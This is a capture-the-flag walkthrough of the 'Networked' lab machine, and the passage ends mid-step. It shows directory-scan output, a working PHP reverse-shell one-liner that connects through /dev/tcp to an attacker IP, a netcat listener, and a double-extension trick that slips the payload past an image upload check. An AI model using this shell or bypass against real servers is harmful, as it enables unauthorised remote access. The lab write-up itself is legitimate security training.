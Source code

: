 	START_TIME: Sun Oct 20 16:33:04 2019
	URL_BASE: http://networked/
	WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
	
	-----------------
	
	GENERATED WORDS: 4612                                                          
	
	---- Scanning URL: http://networked/ ----
	==> DIRECTORY: http://networked/backup/                                        
	+ http://networked/cgi-bin/ (CODE:403|SIZE:210)                                
	+ http://networked/index.php (CODE:200|SIZE:229)                               
	==> DIRECTORY: http://networked/uploads/                                       
	                                                                               
	---- Entering directory: http://networked/backup/ ----
	(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
	    (Use mode '-w' if you want to scan it anyway)
	                                                                               
	---- Entering directory: http://networked/uploads/ ----
	+ http://networked/uploads/index.html (CODE:200|SIZE:2)                        
	                                                                               
	-----------------
	END_TIME: Sun Oct 20 16:38:49 2019
	DOWNLOADED: 9224 - FOUND: 3

In the backup directory there was a tarball containing the php files that make up this site. Looking over the code it seemed like a php reverse shell payload could be uploaded to get a foothold.

# Foot in the Door

It took some experimentation to get it right. Thee upload script did some checks to ensure the file was in fact an image. I had to get a file past those checks that would be handled as a php script by the server. 

I tried a few shells, but this was the one I settled on:

	<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.x.x/5555 0>&1'");

The 10.10.x.x IP was my Kali attack box, and 5555 is the port I used for the shell. This php code, when run by the server would reach out to that IP, and connect to netcat which I had listening on port 5555. 

	$ nc -lvp 5555

I also needed as small image so I chose a little blue bird:

<img src="https://raw.githubusercontent.com/chadpierce/htb/master/networked/birb.jpg" alt="birb" width="400"/>

I tried inserting the shellcode into the exif data of the jpeg but this wasn't working. I then tried something even more simple that worked perfectly. I just combined the 2 files with __cat__, and named it php.jpg. The thinking was that the jpg extension and the fact that this _was_ an image would be enough to get past the upload script's checks, and the .php part of the file name would be enough to make the server interpret the file as PHP (which would launch my reverse shell).

	cat birb.jpg exploit.php > birb.php.jpg

Here's what this looked like on my attack box:
